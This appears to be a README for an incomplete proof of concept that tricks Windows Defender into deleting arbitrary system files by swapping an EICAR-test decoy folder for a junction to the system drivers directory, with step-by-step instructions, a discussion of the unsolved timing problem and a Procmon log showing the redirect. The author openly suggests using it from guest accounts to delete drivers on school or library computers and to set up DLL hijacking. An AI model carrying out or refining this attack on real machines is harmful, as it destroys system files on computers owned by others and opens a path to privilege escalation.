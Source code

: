 (This potentially works from a guest ACC, if you just want to gain arbitrary delete to bypass UAC, there are much easier ways!)

NOTE: THIS POC IS INCOMPLETE, THERE IS STILL A TIMING ISSUE TO BE FIXED

The purpose of this PoC is to gain arbitrary deletion rights as system (basically make windows defender delete whatever we want).
This would work from a guest account (meaning you could delete drivers on school/library computers! :D).

Furthermore, deleting arbitrary dlls can lead to hijacking issues, or files in windows\temp and programdata, which can then be recreated by the user the potentially hijack control flow of critical programs.


Current steps in the PoC:

1. Create a file called 3ware.sys (driver we are targeting) in a folder called eicar on the desktop. The content of our file is an EICAR test string.
2. Wait 5 seconds, delete our fake 3ware.sys file, and turn our folder into a junction to c:\windows\system32\drivers32

In procmon (filter on 3ware.sys), you can clearly see that defender is unaware that the file has been deleted and its folder turned into a junction.
It begins checking the actual driver!

You should be able to delete the real driver, if you time the switch right before it tries to delete our fake file with eicar string.
The problem with switching too early is that it will read the real driver, and since its obviously not a virus, it won't try to delete it.

Normally you would use an OPLOCK to get the timing right, but since defender already places an OPLOCK on our file, we can't use that for timing. You need to figure out something else!

Example output in procmon:


```
7:59:52.6718391 AM	MsMpEng.exe	2124	FileSystemControl	C:\Users\guest1\Desktop\eicar\3ware.sys	OPLOCK HANDLE CLOSED	Control: FSCTL_REQUEST_OPLOCK
7:59:52.6719846 AM	MsMpEng.exe	2124	CreateFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Desired Access: Read Data/List Directory, Read Attributes, Synchronize, Disposition: Open, Options: Synchronous IO Non-Alert, Non-Directory File, Complete If Oplocked, Attributes: N, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: Opened
7:59:52.6720228 AM	MsMpEng.exe	2124	ReadFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Offset: 0, Length: 68, Priority: Normal
7:59:52.6720763 AM	MsMpEng.exe	2124	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:52.6720932 AM	MsMpEng.exe	2124	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:56.1107248 AM	lpe.exe	6684	CreateFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Desired Access: Read Attributes, Delete, Disposition: Open, Options: Non-Directory File, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: Opened
7:59:56.1108337 AM	lpe.exe	6684	QueryAttributeTagFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Attributes: A, ReparseTag: 0x0
7:59:56.1108719 AM	lpe.exe	6684	SetDispositionInformationFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	Delete: True
7:59:56.1108934 AM	lpe.exe	6684	CloseFile	C:\Users\guest1\Desktop\eicar\3ware.sys	SUCCESS	
7:59:56.1128859 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3ware.sys	REPARSE	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: <unknown>
7:59:56.1130086 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3WARE.SYS	NAME NOT FOUND	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
7:59:56.1132937 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3ware.sys	REPARSE	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a, OpenResult: <unknown>
7:59:56.1136595 AM	MsMpEng.exe	2124	CreateFile	C:\Windows\System32\drivers\3WARE.SYS	NAME NOT FOUND	Desired Access: Read Attributes, Disposition: Open, Options: Open For Backup, Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
```

You can clearly see the switch to our real driver :) (I had already deleted 3ware.sys with another PoC, which is why it says not found, can't be bothered to set-up a clean vm!)
